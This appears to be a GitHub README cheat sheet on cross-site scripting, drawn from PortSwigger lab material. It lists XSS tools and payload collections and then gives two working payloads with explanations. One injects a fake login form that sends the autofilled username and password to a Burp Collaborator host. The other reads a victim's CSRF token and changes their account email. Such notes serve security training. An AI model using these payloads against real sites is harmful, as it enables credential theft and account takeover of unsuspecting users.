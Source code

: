 ### Tools:

#### XSStrike
link:https://github.com/s0md3v/XSStrike
#### dalfox
link:https://github.com/hahwul/dalfox
#### ezXSS
link:https://github.com/ssl/ezXSS

### Payloads:

https://github.com/Proviesec/xss-payload-list
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

### Portswigger payloads
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">

The above payloads is used to steal victim username and password using burp collaborator.When the request is send and victim visits the vulnerable functionality
the it will autofill the username and password.It fetch the request when length is true which means password field is filled that's why length will be true and
request is triggered..Mode no-cors mean if the domain is changed (burb collaborator) still it didn't block the request. As a response it give username and 
password separeted by colon.

##### xss payload as csrf 
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>

The above script will be used to change the email address of victim.The script first send a request and wait for the response,from the response it will take the 
csrf token,use it send request to change the email address with test@test.com.
